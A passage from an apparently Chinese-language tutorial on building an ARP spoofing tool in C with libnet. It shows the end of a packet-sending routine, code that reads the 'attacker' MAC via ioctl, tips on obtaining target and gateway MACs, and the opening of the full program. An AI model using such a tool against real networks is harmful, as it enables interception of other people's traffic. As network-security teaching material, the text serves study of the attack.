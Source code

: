 ```c
    if (res == -1) {
      printf("IP libnet write error\n");
      libnet_destroy(net_t);
      return 1;
    }
  }
    
  /* success */
  libnet_destroy(net_t);
  return 0;
}
```

## 优化获取

五个地址，总不能完全让用户输入吧，因此，怎么简化用户体验也是我们应该注意的事情。

网关IP和用户IP是会随着网关变化的，我们把简单的IP两个地址让用户输入，MAC地址用程序获取。

首先是获得自己的MAC，用Socket里的icotl函数即可：

```c
  /* get attacker's mac */
  int sockfd;
  static struct ifreq req;
  sockfd = socket(PF_INET, SOCK_DGRAM, 0);
  strcpy(req.ifr_name, dev);
  ioctl(sockfd, SIOCGIFHWADDR, &req);
  print_mac((u_char *)req.ifr_hwaddr.sa_data);
  memcpy(ATTACKER_MAC, (u_char *)req.ifr_hwaddr.sa_data, 6);
  printf("\n");
```

目标的MAC可以用ping来实现，而网关直接抓包就好。

完整的代码如下：

```c
#include "head.h"

u_char TARGET_MAC[6];
u_char ATTACKER_MAC[6];
u_char GATEWAY_MAC[6];
u_char TARGET_IP[4];
u_char GATEWAY_IP[4];

/* print mac address */
void print_mac(u_char *mac) {
  int i;
  for (i = 0; i < 6; i++) {
    if (mac[i] < 16) printf("0");
    printf("%x", mac[i]);
    if (i < 5) printf(":");
  }
  printf("\n");
}

/* print ip address */
void print_ip(u_char *ip) {
  int i;
  for (i = 0; i < 4; i++) {
    printf("%d", ip[i]);
    if (i < 3) printf(".");
  }
  printf("\n");
}
```